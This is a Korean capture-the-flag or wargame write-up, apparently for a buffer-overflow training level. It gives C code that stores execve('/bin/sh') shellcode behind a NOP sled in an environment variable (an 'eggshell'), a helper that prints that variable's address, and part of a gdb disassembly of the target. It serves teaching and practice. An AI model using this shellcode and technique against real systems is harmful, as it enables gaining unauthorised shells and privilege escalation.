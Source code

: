 ### Solution

문제에서 환경변수를 지우는 부분이 없으니 에그쉘을 이용해서 문제를 해결할 수 있을 것이다.

사용된 에그쉘 코드와 환경변수에서 에그쉘의 주소를 얻어오는 코드는 다음과 같다.

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";

int main(void)
{
	char msg[512];
	int i;

	for(i=0;i<511;i++)
		msg[i]='\x90';

	msg[511]=0;

	msg[0]='E';
	msg[1]='G';
	msg[2]='G';
	msg[3]='=';

	for(i=0;i<strlen(shellcode);i++)
	{
		msg[511-strlen(shellcode)+i]=shellcode[i];
	}

	putenv(msg);

	system("/bin/bash2");
}
```

```c
#include<stdio.h>

int main(void)
{
        char *addr;
        addr = getenv("EGG");
        printf("EGG addr : %p\n",addr);
}
```

이 바이너리를 gdb로 분석해보자.

``` bash2
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,0x100
0x8048439 <main+9>:	cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:	jg     0x8048456 <main+38>
0x804843f <main+15>:	push   0x80484e0
0x8048444 <main+20>:	call   0x8048350 <printf>
0x8048449 <main+25>:	add    %esp,4
0x804844c <main+28>:	push   0
0x804844e <main+30>:	call   0x8048360 <exit>
```